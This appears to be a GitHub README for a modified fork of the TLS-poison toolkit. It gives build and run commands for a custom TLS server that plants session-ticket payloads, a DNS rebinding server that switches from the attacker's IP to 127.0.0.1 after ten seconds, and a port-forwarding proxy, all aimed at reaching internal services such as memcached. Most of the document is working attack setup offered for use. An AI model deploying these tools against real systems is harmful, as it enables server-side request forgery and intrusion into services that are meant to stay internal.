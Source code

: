 # TLS Poison
Modified from https://github.com/jmdx/TLS-poison. Compared to the original repo, I have added some modified tools and a feature. The modified tools are shown below. 

Now we can use session ticket to resume session. You could set the `ticket_payload` in the redis to try TLS 1.2 session ticket resumption poison.



###	TLS Server

```bash
# Install dependencies
sudo apt install git redis
git clone https://github.com/jmdx/TLS-poison.git
# Install rust:
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
cd TLS-poison/client-hello-poisoning/custom-tls
# There will definitely be warnings I didn't clean up :)
cargo build
# Test out the server:
target/debug/custom-tls -p 11211 --verbose --certs /root/tls/fullchain.pem --key /root/tls/privkey.pem http
# (In another terminal to verify setup)
curl -kv https://localhost:8443
```

If you use the proxy tool, you should change the port to 11210.


```
target/debug/custom-tls -p 11210 --verbose --tickets --certs /path/to/fullchain.pem --key /path/to/privkey.pem --protover 1.2 http
```



###  DNS Tool

```bash
sudo apt install python3 python3-pip
git clone https://github.com/jmdx/TLS-poison.git
cd TLS-poison/client-hello-poisoning/custom-dns
pip3 install -r requirements.txt
# $DOMAIN: The domain you own where you will set up NS records
# $TARGET_IP: Likely 127.0.0.1, though you can set this to be some box 
#   netcat listening, for early phases of testing.
# $INITIAL_IP: The IP of the box with custom-tls
sudo python3 alternate-dns.py $DOMAIN,$TARGET_IP -b 0.0.0.0 -t $INITIAL_IP -d 8.8.8.8
# If you get "OSError: address already in use", you can do the following
# to stop systemd-resolved.  This might mess up lots of things outside of
# custom-dns, but if it's on a dedicated VM, you're probably okay.
# A better way is to add DNSStubListener=no to /etc/systemd/resolved.conf
sudo systemctl stop systemd-resolved
# Finally, to verify, run the following a few times to see it alternating:
dig @localhost $DOMAIN
```

I have changed the original dns rebinding method. It will return your TLS server IP in the first 10s,  return 127.0.0.1 thereafter.

If you want to change the interval time, edit client-hello-poisoning/custom-dns/alternate-dns.py#96.

```python
return d[1] if (time() - start > 10) else args.TARGET
```



###  Proxy Tool

```
python2 proxy.py
```

Forward port 11211 to local port 11210.



###	New DNS Tool

```
python3 alternate-dns.py example.com --ip x.x.x.x --mode static_zero
Usage:
     --ip 					 Your vps ip or an ip which you want the domain point to.
     --static_zero   In this mode, the tool will return two A records in a DNS query. One of the records is your vps ip, the other one is 0.0.0.0.
     --rebinding		 In this mode, the tool will only return an A records in a DNS query. But it will randomly return 127.0.0.1 or the ip you set. Similar like the original alternate-dns tool.
```

